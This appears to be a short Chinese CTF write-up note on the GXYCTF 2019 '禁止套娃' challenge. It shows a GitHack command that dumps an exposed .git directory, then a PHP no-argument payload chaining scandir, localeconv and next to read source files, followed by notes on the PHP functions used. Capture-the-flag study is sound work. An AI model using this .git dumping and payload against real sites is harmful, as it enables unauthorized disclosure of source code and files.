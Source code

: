 GIT泄露

题目

[[GXYCTF 2019\]禁止套娃 | NSSCTF](https://www.nssctf.cn/problem/1095)

解法：[BuuCTF [GXYCTF2019\]禁止套娃详解（两种方法）-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/134089541?ops_request_misc=%7B%22request%5Fid%22%3A%22170004998116800227446359%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170004998116800227446359&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-134089541-null-null.142^v96^pc_search_result_base1&utm_term=[GXYCTF 2019]禁止套娃&spm=1018.2226.3001.4187)

payload:?exp=highligth_file(next(array_reverse(scandir(current(localeconv())))));

githack语句：

```
python2 GitHack.py http://node4.anna.nssctf.cn:28735/.git  
```

###### scandir() :将返回当前目录中的所有文件和目录的列表。返回的结果是一个数组，其中包含当前目录下的所有文件和目录名称（glob()可替换）

###### localeconv() ：返回一包含本地数字及货币格式信息的二维数组。（但是这里数组第一项就是‘.’，这个.的用处很大）

###### current() ：返回数组中的单元，默认取第一个值。pos()和current()是同一个东西

###### end() ： 将内部指针指向数组中的最后一个元素，并输出

next() ：将内部指针指向数组中的下一个元素，并输出
prev() ：将内部指针指向数组中的上一个元素，并输出
reset() ： 将内部指针指向数组中的第一个元素，并输出
each() ： 返回当前元素的键名和键值，并将内部指针向前移动





![1700054433658](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1700054433658.png)

![1700054446870](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1700054446870.png)

    localeconv() – 函数返回一个包含本地数字及货币格式信息的数组 第一个是.
    pos() – 返回数组中的当前单元, 默认取第一个值
    next – 将内部指针指向数组下一个元素并输出
    scandir() – 扫描目录
    array_reverse() – 翻转数组
    array_flip() - 键名与数组值对调
    readfile()
    array_rand() - 随机读取键名
    var_dump() - 输出数组，可以用print_r替代
    file_get_contents() - 读取文件内容，show_source,highlight_file echo 可代替
    get_defined_vars() -  返回由所有已定义变量所组成的数组
    end() - 读取数组最后一个元素
    current() - 读取数组的第一个元素
    #php内置函数